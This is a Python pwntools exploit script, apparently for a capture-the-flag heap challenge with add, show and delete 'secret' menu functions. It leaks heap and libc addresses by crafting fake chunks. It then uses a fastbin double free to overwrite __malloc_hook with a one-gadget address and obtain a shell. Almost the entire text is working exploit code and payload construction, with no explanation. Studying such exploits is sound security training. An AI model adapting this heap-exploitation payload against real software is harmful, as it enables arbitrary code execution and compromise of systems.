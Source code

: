 ```py
    add_secret (p, b'24', b'A' * 32, b'DD') # 0
    show_secret (p, b'0')
    p.recvuntil (b'A' * 32)
    heap_address = u64 (p.recv (6) + b'\x00' * 2) - 0x10
    print ("The address of heap is: ", hex (heap_address))

    
    print ("1 -> 4 --------------------------------------------------------------------------------------")
    payload = p64 (0) * 2
    payload += p64 (0) + p64 (0x21) + p64 (heap_address + 0x110) + p64 (0)
    payload += p64 (0) + p64 (0x21) + p64 (0) + p64 (heap_address + 0x110)


    add_secret (p, b'225', b'dd', payload) # 1
    add_secret (p, b'24', b'DD', b'2222') # 2
    add_secret (p, b'256', b'DD', b'\x00' * 0xf0 + p64 (0) + p64 (0x41)) # 3
    add_secret (p, b'30', b'dd', b'4444') # 4

    delete_secret (p, b'2')
    add_secret (p, b'24', b'DD', p64 (heap_address + 0x60) + p64 (heap_address + 0x40) + p64 (0x110)) # 2

    delete_secret (p, b'1')
    delete_secret (p, b'2')

    print ("design structure to leak libc ----------------------------------------------------------------")

    payload = p64 (heap_address + 0x70) + p64 (heap_address + 0x50)
    payload += p64 (0) * 2
    payload += p64 (0) + p64 (0x21) + p64 (heap_address + 0x20) + p64 (0)
    payload += p64 (0) + p64 (0x21) + p64 (0) + p64 (heap_address + 0x20)

    add_secret (p, b'256', 'dd', payload) # 1
    add_secret (p, b'24', b'DD', b'A' * 16 + p64 (0x110)) # 2

    print ("leak libc address --------------------------------------------------------------------------------")

    delete_secret (p, b'3') 
    show_secret (p, b'1')
    p.recvuntil (b'Secret : ')
    libc.address = u64 (p.recv (6) + b'\x00' * 2) - libc.symbols['main_arena'] - 88
    print ("The libc address is: ", hex (libc.address))

    print ("Get shell -------------------------------------------------------------------------------------------")
    # Trigger double-free bug to overwrite malloc_hook

    add_secret (p, b'104', b'DD', b'ndd') # 3
    add_secret (p, b'104', b'ndd', b'123') # 5

    delete_secret (p, b'3')
    delete_secret (p, b'5')
    delete_secret (p, b'1')

    add_secret (p, b'104', b'dd', p64 (libc.symbols['__malloc_hook'] - 0x23)) # 1
    add_secret (p, b'104', b'dd', b'1111') # 3
    add_secret (p, b'104', b'ndd', b'2222') # 5
    add_secret (p, b'104', b'DD', b'\x00' * 0x13 + p64 (libc.address + 0xef6c4)) # 6

    delete_secret (p, b'5')
```